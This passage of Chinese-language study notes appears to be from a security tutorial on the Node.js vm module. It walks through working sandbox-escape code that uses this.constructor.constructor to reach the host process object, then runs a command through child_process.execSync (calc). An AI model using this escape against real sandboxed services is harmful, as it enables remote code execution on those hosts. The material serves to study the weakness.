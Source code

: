   ![image-20221224224546705](E:\MyBook\Node_Park\.gitbook\assets\image-20221224224546705.png)

```javascript
const vm = require('vm');
const util = require('util');
global.globalVar = 3;
const sandbox = { globalVar: 1 };
vm.createContext(sandbox);
vm.runInContext('globalVar *=2', sandbox);
console.log(util.inspect(sandbox));  // { globalVar: 2 }
console.log(util.inspect(global.globalVar));  //3
```

- `vm.runInNewContext(code, sandbox)`：传入要执行的代码和沙箱对象
- `new vm.Script(code)`：创建一个新的vm.Script对象，包含预编译的脚本，能够被多次执行。code不绑定于任何全局对象，仅仅绑定于每次执行它的对象。

```javascript
const vm = require('vm');
const util = require('util');
const sandbox = {
    animal: 'cat',
    count: 3
};
const script = new vm.Script('count +=2; name="kitty"');
const context = vm.createContext(sandbox);
script.runInContext(context);
console.log(util.inspect(sandbox));
// { animal: 'cat', count: 5, name: 'kitty' }
```

想要RCE，就要先获取`process`对象，再利用`child_process`执行命令。但`process`是挂载在`global`上的，`createContext`得到的上下文是访问不了`global`的。因此我们要想办法将`global`上的`process`引入沙箱中。

```javascript
const vm = require('vm');
const util = require('util');
const res = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
console.log(res);
```

`this`指向当前传递给`runInNewContext`的对象，获取其构造器(Function)，再获取构造器对象的构造器(即Function的constructor)。

```javascript
const res = vm.runInNewContext(`this.toString.constructor('return process.env')()`);
```

第一个`constructor`换成`toString`也能成功执行。

```javascript
const vm = require('vm');
const script = new vm.Script(`
(() => {
    const res = this.toString.constructor('return process')();
    return res.mainModule.require('child_process').execSync('calc').toString();})()
`);
const sandbox = {
    m: [],
    n: {},
    x: /regexp/
}
const context = new vm.createContext(sandbox);
script.runInContext(context);
```
